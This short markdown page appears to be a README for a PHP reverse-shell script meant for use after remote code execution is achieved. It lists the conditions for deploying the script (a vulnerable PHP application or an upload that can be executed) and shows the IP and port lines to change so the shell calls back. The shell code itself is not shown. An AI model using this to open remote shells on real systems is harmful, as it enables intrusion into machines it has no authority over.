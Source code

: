 # Once RCE is achieved

### Conditions to use: 

1. Target machine can execute PHP code via vulnerable application
2. If we can upload a file, then navigate to that file to execute

#### Configure the following lines in the script: 


```
$ip = '127.0.0.1';  // CHANGE THIS
$port = 1234;       // CHANGE THIS

```
